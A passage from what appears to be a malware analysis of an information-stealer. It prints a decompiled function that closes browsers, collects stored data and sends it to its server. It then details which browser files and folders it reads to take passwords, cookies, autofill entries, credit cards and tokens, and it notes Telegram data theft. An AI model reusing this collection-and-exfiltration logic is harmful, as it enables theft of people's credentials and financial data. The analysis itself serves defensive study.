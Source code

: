 <img width="382" height="244" alt="image" src="https://github.com/user-attachments/assets/395ef309-1da6-4768-a969-3a1b9d84acd3" />

<img width="241" height="444" alt="image" src="https://github.com/user-attachments/assets/a2c05041-0ebe-4ef0-916e-f3619ab04c23" />

This callback is basically stealing Telegram data (if Telegram.exe exists on the device). It stores the retrieved data in a List<Entity5>, where Entity5 = TelegramData (see in the end).

#### Callback 15
This one is very interesting and it actually steals browser passwords and similar sensitive data.

```cpp
public static void вал93тфыв(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  if (settings.Id1)
  {
      List<Entity9> list = new List<Entity9>();
      SystemInfoHelper.CloseBrowser();
      list.AddRange(Entity18.Id1(settings.Id11));
      list.AddRange(MemoryCollect.Id1(settings.Id12));
      Entity13 entity = connection.Id8(list);
      if (entity == Entity13.Id3)
      {
          вал93тфыв(connection, settings, ref result);
      }
      if (entity == Entity13.Id4)
      {
          throw new InvalidOperationException();
      }
  }
}
```
First of all it closes all active browsers, since it will need to access some folders to steal their data. Accessing these folders while the browsers are active will not work.

**Id1() function analysis**
*In brief: In brief: just collects browser data (cookies, logins, autofill, creditcards, tokens) and sends it to the server*

In depth:
1. Iterates settings.Id11, which is the browser profiles (see at the end). For each browser profile (eg `%LOCALAPPDATA%\Google\Chrome\User Data`)
   - scans the folder for subfolders: “Login Data” (passwords, usernames), “Web Data”, “Cookies”, “Extension Cookies”. If cookies are found:
     - Cookies / Extension Cookies folders:
       - It checks whether it contains the “Roaming” folder to differentiate between Chrome / Opera 
       - it retrieves the cookies data (List<Entity10>, where Entity10 is CookieInfo – see at the end)
	     - It also retrieves the cookies data from Network\\<Browserfolder> path
	     - it also retrieves the cookies from the “ExtensionCookies” folder
       ⇒ Now its clear why all browsers are closed: otherwise the cookies folders cannot be accessed
     - If LoginData exists:
       - The malware retrieves Entity12 (=LoginData) from this folder. LoginData stored inside Entity9.Id3
     - If WebData exists:
       - The malware retrieves Entity8 (AutofillDataWebData) from this folder, and stores it inside Entity9.Id4
       - The malware retrieves Entity11 (CreditCardWebData) from this folder, and stores it inside Entity9.Id5
       - AccountInfo is retrieved, which contains the browser’s ID (such as google accountID) and the decrypted 
2. Iterates settings.Id12 which is some paths provided by the server. For each path:
   - The path could be for example %APPDATA%\Mozilla\Firefox\Profiles
   - retrieves all environment variables and searches for browser cookies (cookies.sqlite)
   - assigns the cookies in Entity9.Id6 (just like before), browser name just like before
   → This is done because Firefox uses different cookie DB table structures
